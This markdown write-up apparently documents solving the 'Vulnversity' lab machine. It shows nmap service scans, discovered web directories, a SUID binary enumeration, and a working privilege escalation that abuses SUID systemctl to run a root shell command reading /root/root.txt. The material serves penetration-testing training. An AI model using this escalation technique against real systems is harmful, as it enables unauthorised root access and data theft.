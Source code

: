 # Vulnversity

## namp -sV -vv
open ports -> 21, 22, 139, 445,  3128, 3333


## nmap -sV -vv -Pn

PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack ttl 63 Squid http proxy 3.5.12
3333/tcp open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



## DIRECTORY BRUTEFORCE

- //
- /css
- /fonts
- /images
- <b>/internal</b>
- /js


## PRIVILIGE ESCALATION
=======================
### 1. Find Binaries having SUID Permission
---------------------------------------------------
#### find / -user root -perm -4000 -exec ls -ldb {} \;
or,
#### find / -perm -u=s -type f 2>/dev/null

- <b>/</b> denotes  start from the top (root) of the file system and find every directory
- <b>-perm</b> denotes search for the permissions that follow
- <b>-u=s</b> denotes look for files that are owned by the root user
- <b>-type</b> states the type of file we are looking for
- <b>f</b> denotes a regular file, not the directories or special files
- <b>2</b> denotes to the second file descriptor of the process, i.e. stderr (standard error)
- <b>\></b> means redirection 
- <b>/dev/null</b> is a special filesystem object that throws away everything written into it.

#### find / -perm -u=s -type f 2>/dev/null

- /usr/bin/newuidmap
- /usr/bin/chfn
- /usr/bin/newgidmap
- /usr/bin/sudo
- /usr/bin/chsh
- /usr/bin/passwd
- /usr/bin/pkexec
- /usr/bin/newgrp
- /usr/bin/gpasswd
- /usr/bin/at
- /usr/lib/snapd/snap-confine
- /usr/lib/policykit-1/polkit-agent-helper-1
- /usr/lib/openssh/ssh-keysign
- /usr/lib/eject/dmcrypt-get-device
- /usr/lib/squid/pinger
- /usr/lib/dbus-1.0/dbus-daemon-launch-helper
- /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
- /bin/su
- /bin/ntfs-3g
- /bin/mount
- /bin/ping6
- /bin/umount
- /bin/systemctl
- /bin/ping
- /bin/fusermount
- /sbin/mount.cifs



### 2. Exploit SUID Enabled systemctl
---------------------------------------
eop=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop
/bin/systemctl link $eop
/bin/systemctl enable --now $eop


